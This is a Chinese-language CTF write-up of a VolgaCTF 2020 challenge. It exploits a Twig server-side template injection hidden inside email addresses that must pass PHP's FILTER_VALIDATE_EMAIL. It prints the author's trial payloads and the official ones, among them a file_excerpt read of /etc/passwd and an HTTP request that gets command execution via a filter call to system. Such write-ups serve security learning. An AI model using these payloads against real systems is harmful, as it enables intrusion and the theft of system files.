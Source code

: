 ```php
```
我们很容易知道这里存在ssti,但是有两个问题:

1. FILTER_VALIDATE_EMAIL验证
2. 如何接收结果

第二个问题不难解决,直接用自己的vps接受就可以,第一个问题通过查询维基百科也可以构造出payload,但是payload却有长度限制,最多只能有64个字符,通常的twig ssti的payload是无法直接用的了,需要我们自己挖掘

https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly
https://en.wikipedia.org/wiki/Email_address



`python -m smtpd -n -c DebuggingServer 0.0.0.0:25`

以下是我挖掘发现的payload,最后还是没能做出来,原因是自己查询的版本和题目的版本不一样

```php

"{{app.request}}"@ccreater.top
"{{app.environment}}"%40ccreater.top  : prod
"{{app.request.request.get('name')}}"@[47.107.171.219]
email="{{render(controller(app.request.request.get('a')))}}"@ccreater.top&a=App\Controller\MainController::source


"{{render(controller(app.request.query.get(1),{'file':'flag'}))}}"@ccreater.top 1=Symfony\Bundle\FrameworkBundle\Controller::file
文件名最长只能4个,并没有读到flag
```


以下是wp提供的payload


https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt


```
email="{{'/etc/passwd'|file_excerpt(1,30)}}"@attacker.tld




POST /subscribe?0=cat+/etc/passwd HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
Content-Type: application/x-www-form-urlencoded

email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

https://twig.symfony.com/doc/3.x/functions/constant.html
VolgaCTF_6751602deea2a308ab611eeef7a4e961
https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html?m=1

其中有一个filter_var来命令执行实在是让我惊讶

### NetCorp
